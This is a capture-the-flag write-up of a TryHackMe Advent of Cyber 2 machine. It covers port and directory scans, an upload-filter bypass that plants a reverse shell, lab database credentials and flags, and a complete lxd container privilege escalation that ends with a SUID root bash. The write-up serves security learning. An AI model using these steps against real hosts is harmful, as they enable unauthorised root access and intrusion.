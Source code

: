 ```yaml
---
description: AdventOfCyber2 room from TryHackMe! write up.
---
```


# AdventOfCyber2

## Task 29

### NMAP scan

```
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-24 12:16 EST
Nmap scan report for 10.10.110.96
Host is up (0.049s latency).
Not shown: 998 closed ports
PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
65000/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Light Cycle

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.94 seconds
```


### Gobuster scan

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.110.96:65000
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     txt,html,phtml,php
[+] Timeout:        10s
===============================================================
2020/12/24 12:23:15 Starting gobuster
===============================================================
/index.php (Status: 200)
/uploads.php (Status: 200)
/assets (Status: 301)
/api (Status: 301)
/grid (Status: 301)
Progress: 18271 / 220561 (8.28%)
===============================================================
2020/12/24 12:31:18 Finished
===============================================================

```

### Getting access

- Using burp to block the filter.js file and using the extension `.png.php` allowed me to upload a reverse shell
- In the `/grid` directory all the uploaded files were stored so i got the shell easily

### Upgrade and stabilize shell

```
# https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
# In the reverse shell
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
# Ctrl-Z

# In our machine
$ stty raw -echo
$ fg

# In reverse shell
# Push Intro/CTRL-C
$ export TERM=xterm
```

### web.txt flag

`/var/www/web.txt` --> `THM{ENTER_THE_GRID}`


### Local DB credentials

- `/var/www/TheGrid/includes/dbauth.php` --> tron:IFightForTheUsers (*DB address:* `localhost`, *MSQL DB:* tron)

### Accessing the local DB

Use `mysql -u tron -p tron` and introduce the password IFightForTheUsers

```
mysql> select * from users;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | flynn    | edc621628f6d19a13a00fd683f5e3ff7 |
+----+----------+----------------------------------+
```

Using Crackstation: `flynn:@computer@`

Looks like the user used the same password in the machine so `su flynn` and use the found password to change to the new user

### user.txt flag

`/home/flynn/user.txt` --> `THM{IDENTITY_DISC_RECOGNISED}`

### Scaling privileges

`flynn` user is in the `lxd` so we can use `lxc`:

```
flynn@light-cycle:~$ lxc image list
To start your first container, try: lxc launch ubuntu:18.04

+--------+--------------+--------+-------------------------------+--------+--------+------------------------------+
| ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE          |
+--------+--------------+--------+-------------------------------+--------+--------+------------------------------+
| Alpine | a569b9af4e85 | no     | alpine v3.12 (20201220_03:48) | x86_64 | 3.07MB | Dec 20, 2020 at 3:51am (UTC) |
+--------+--------------+--------+-------------------------------+--------+--------+------------------------------+
```

We are lucky, we already have an Alpine image in the machine (Very convenient), lets get root access:

`lxc init Alpine pwned -c security.privileged=true`
`lxc config device add pwned system disk source=/ path=/mnt/root recursive=true`
`lxc start pwned`
`lxc exec pwned /bin/sh`

Nice we are in the container, we can access the victim file system in `/mnt/root` and get the flag:

`/root/root.txt` --> `THM{FLYNN_LIVES}`

If you want to get access as root to the actual machine and not only the container we can do the following:

`chmod +s /mnt/root/bin/bash`

That command will set the SUID to the victim machine bash. Just exit the container and type `bash -p` to get access as root to the machine!
